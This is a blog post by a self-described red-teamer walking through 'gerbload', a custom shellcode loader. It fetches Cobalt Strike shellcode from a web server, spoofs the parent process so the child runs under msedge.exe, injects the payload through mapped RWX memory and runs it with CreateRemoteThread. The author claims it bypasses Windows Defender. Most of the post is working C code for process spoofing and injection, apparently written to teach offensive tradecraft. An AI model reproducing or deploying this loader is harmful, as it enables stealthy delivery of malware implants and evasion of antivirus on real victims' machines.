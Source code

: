 ```yaml
---
layout: post
category: blog
---
```

# Adopted Maps: The PPID Spoofing Conundrum

hey its gerbsec back again with more heat. i've gotten into maldev as part of my red team journey that i have been documenting. specifically different techinques i can make my beacon hide better. for starters, we need to write our own loaders! this is where gerbload (name is in the works) comes in handy!

### what is gerbload?

gerbload is a shellcode loader i wrote that functions as a orphanage! essentially it'll pull your shellcode from a webserver, find a suitable parent for your orphan child process. match them up and inject your shellcode! this will spoof the current directory, the arguments, the parent and the process where our shellcode will reside! as of right now this bypasses defender (ok i get it, not a big deal). i have not tested against edr.

### lets walk through the code

#### download payload

the first part of the code involves downloading the payload from a url and storing. in this case i'm using cobaltstrike shellcode. i should add that i have artifact kit, process inject kit and sleep mask kit all enabled and customized ahead of time. (maybe i'll do some blog posts on those later?)

```c
BOOL GetPayloadFromUrl(LPCWSTR szUrl, PBYTE* pPayloadBytes, SIZE_T* sPayloadSize) {
<SNIP>
}
```

this takes 3 arguments: the URL, a Size variable to store the size of the payload and a PBYTE variable to store the actual bytes of the shellcode. 

the usage utilizes wininet.h, its quite a simple request with not much opsec being considered here.
#### spoofing the ppid

now that we have the payload stored in memory, let's make room for it. first of all we need a parent process. we can use a lot of different processes but for our case i've used `msedge.exe` mainly because the odds of it running on a windows 10/11 machine is almost 100% nowadays. 

P.S. this only works on normal priv processes.

from there we'll utilize GetRemoteProcessHandle function that under the hood uses CreateToolhelp32Snapshot:
```c
BOOL GetRemoteProcessHandle(IN LPWSTR szProcessName, OUT DWORD* dwProcessId, OUT HANDLE* hProcess) {
<SNIP>
	// Takes a snapshot of the currently running processes 
	hSnapShot = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, NULL);
	if (hSnapShot == INVALID_HANDLE_VALUE) {
		printf("\t[!] CreateToolhelp32Snapshot Failed With Error : %d \n", GetLastError());
		goto _EndOfFunction;
	}
	// Retrieves information about the first process encountered in the snapshot.
	if (!Process32First(hSnapShot, &Proc)) {
		printf("\n\t[!] Process32First Failed With Error : %d \n", GetLastError());
		goto _EndOfFunction;
	}
	<SNIP>
	 while (Process32Next(hSnapShot, &Proc));
```

we'll loop over the processes until we find msedge, from there we'll utilize it to create the process.

first we'll create the target process path:

```c
	// making the target process path
	sprintf(lpPath, "%s\\System32\\%s", WnDr, lpProcessName);

	// making the `lpCurrentDirectory` parameter in CreateProcessA
	sprintf(CurrentDir, "%s\\System32\\", WnDr);
```

from there we can specifiy the attributes to the process we're creating:
```c
	// this will fail with ERROR_INSUFFICIENT_BUFFER / 122
	InitializeProcThreadAttributeList(NULL, 1, NULL, &sThreadAttList);

	// allocating enough memory
	pThreadAttList = (PPROC_THREAD_ATTRIBUTE_LIST)HeapAlloc(GetProcessHeap(), HEAP_ZERO_MEMORY, sThreadAttList);
	if (pThreadAttList == NULL) {
		printf("[!] HeapAlloc Failed With Error : %d \n", GetLastError());
		return FALSE;
	}

	// calling InitializeProcThreadAttributeList again passing the right parameters
	if (!InitializeProcThreadAttributeList(pThreadAttList, 1, NULL, &sThreadAttList)) {
		printf("[!] InitializeProcThreadAttributeList Failed With Error : %d \n", GetLastError());
		return FALSE;
	}

	if (!UpdateProcThreadAttribute(pThreadAttList, NULL, PROC_THREAD_ATTRIBUTE_PARENT_PROCESS, &hParentProcess, sizeof(HANDLE), NULL, NULL)) {
		printf("[!] UpdateProcThreadAttribute Failed With Error : %d \n", GetLastError());
		return FALSE;
	}

	// setting the `LPPROC_THREAD_ATTRIBUTE_LIST` element in `SiEx` to be equal to what was
	// created using `UpdateProcThreadAttribute` - that is the parent process
	SiEx.lpAttributeList = pThreadAttList;
```

finally we'll goahead and use CreateProcessA to create the process:
```c
	if (!CreateProcessA(
		NULL,
		lpPath,
		NULL,
		NULL,
		FALSE,
		EXTENDED_STARTUPINFO_PRESENT,
		NULL,
		CurrentDir,
		&SiEx.StartupInfo,
		&Pi)) {
		printf("[!] CreateProcessA Failed with Error : %d \n", GetLastError());
		return FALSE;
	}
```

at this point we should have a process that (in our case) is "Runtimebroker.exe -embedding" running under msedge.exe (lol). We successfully found a parent for our orphan! 

#### injecting the payload

now that we have a process running, we can inject our shellcode. we can do this many ways. if we wanted to use an early bird technique we just have to put the process we created in a suspended state. this could be done many ways, one way is to put it as a DEBUG_PROCESS state and the debugger is our current process. a slightly more simple and more opsec friendly way is to inject without the use of private memory. we'll do this using remote mapping injection. 

```c
BOOL RemoteMapInject(IN HANDLE hProcess, IN PBYTE pPayload, IN SIZE_T sPayloadSize, OUT PVOID* ppAddress) {

	BOOL		bSTATE				= TRUE;
	HANDLE		hFile				= NULL;
	PVOID		pMapLocalAddress	= NULL,
				pMapRemoteAddress	= NULL;


	// create a file mapping handle with `RWX` memory permissions
	// this doesnt have to allocated `RWX` view of file unless it is specified in the MapViewOfFile/2 call  
	hFile = CreateFileMapping(INVALID_HANDLE_VALUE, NULL, PAGE_EXECUTE_READWRITE, NULL, sPayloadSize, NULL);
	if (hFile == NULL) {
		printf("\t[!] CreateFileMapping Failed With Error : %d \n", GetLastError());
		bSTATE = FALSE; goto _EndOfFunction;
	}

	// maps the view of the payload to the memory 
	// FILE_MAP_WRITE are the permissions of the file (payload) - 
	// since we only need to write (copy) the payload to it
	pMapLocalAddress = MapViewOfFile(hFile, FILE_MAP_WRITE, NULL, NULL, sPayloadSize);
	if (pMapLocalAddress == NULL) {
		printf("\t[!] MapViewOfFile Failed With Error : %d \n", GetLastError());
		bSTATE = FALSE; goto _EndOfFunction;
	}
	
	memcpy(pMapLocalAddress, pPayload, sPayloadSize);

	// maps the payload to a new remote buffer (in the target process)
	// it is possible here to change the memory permissions to `RWX`
	pMapRemoteAddress = MapViewOfFile2(hFile, hProcess, NULL, NULL, NULL, NULL, PAGE_EXECUTE_READWRITE);
	if (pMapRemoteAddress == NULL) {
		printf("\t[!] MapViewOfFile2 Failed With Error : %d \n", GetLastError());
		bSTATE = FALSE; goto _EndOfFunction;
	}

_EndOfFunction:
	*ppAddress = pMapRemoteAddress;
	if (hFile)
		CloseHandle(hFile);
	return bSTATE;
}
```

here we create a filemapping with rwx, then we'll map the view of the payload to the memory with file_map_write permissions. Finally we'll use MapViewOfFile2 to maps the payload on the remote buffer and change its permissions to rwx. 

#### executing the shellcode

we're practically done now, all is left is to execute the shellcode in the process we have injected it, we can do this in many ways but for simplicity we can do this with CreateRemoteThread with the process and address:

```
	hThread = CreateRemoteThread(hProcess, NULL, NULL, pAddress, NULL, NULL, NULL);
	if (hThread == NULL)
		printf("[!] CreateRemoteThread Failed With Error : %d \n", GetLastError());

	return 0;
```

annnnndd we get our beacon!

![](assets/images/2024-07-31-adopted-maps-image-1.png)

as we also see the process its running as is RuntimeBroker, if we check process hacker we can see the parent process and current directory are set:

![](assets/images/2024-07-31-adopted-maps-image-2.png)

Finally the mandatory defender screenshot:

![](assets/images/2024-07-31-adopted-maps-image-3.png)

thats all i had today. i'm sure theres tons of typos and such, so i'll be sure to go back and edit this as i reread it....

best,
gerbsec